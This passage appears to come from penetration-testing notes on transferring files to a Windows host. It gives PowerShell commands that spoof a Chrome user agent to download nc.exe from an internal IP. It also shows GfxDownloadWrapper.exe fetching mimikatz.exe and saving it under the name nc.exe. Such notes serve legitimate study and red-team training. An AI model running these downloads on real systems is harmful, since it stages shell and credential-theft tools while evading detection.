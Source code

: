 ### **Request with Chrome User Agent**

{% code overflow="wrap" %}
```
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
```
{% endcode %}

{% code overflow="wrap" %}
```
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### **Transferring File with GfxDownloadWrapper.exe**

{% code overflow="wrap" %}
```
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
